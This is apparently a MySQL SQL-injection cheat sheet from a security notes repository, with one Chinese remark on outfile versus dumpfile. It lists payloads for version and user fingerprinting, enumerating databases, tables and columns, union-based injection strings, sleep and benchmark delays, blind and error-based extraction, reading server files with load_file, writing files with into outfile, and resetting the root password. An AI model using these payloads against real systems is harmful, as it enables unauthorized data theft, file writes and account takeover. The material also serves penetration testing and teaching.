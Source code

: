 MySQL Payload
=====================================
- Version 
    + ``SELECT @@version``
- Comment 
    + ``SELECT 1 -- comment``
    + ``SELECT 1 # comment``
    + ``SELECT /*comment*/1``
- Current User
    + ``SELECT user()``
    + ``SELECT system_user()``
- List User
    + ``SELECT user FROM mysql.user``
- Current Database
    + ``SELECT database()``
- List Database
    + ``SELECT schema_name FROM information_schema.schemata``
- List Tables
	+ ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
	+ ``1" union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()#``
- List Columns
	+ ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
	+ ``1" union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='user'#``
- If
    + ``SELECT if(1=1,'foo','bar');`` =>return ``'foo'``
- Ascii
	+ ``SELECT char(0x41)``
	+ ``SELECT ascii('A')``
	+ ``SELECT 0x414243`` => return ``ABC``
- Delay
    + ``sleep(1)``
    + ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    + ``select @@datadir``
    + ``select load_file('databasename/tablename.MYD')``
- Blind
    + ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    + ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Write File
    + ``union select 1,1,1 into outfile '/tmp/demo.txt'``
    + ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``
    + dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏
- Change Password
    + ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
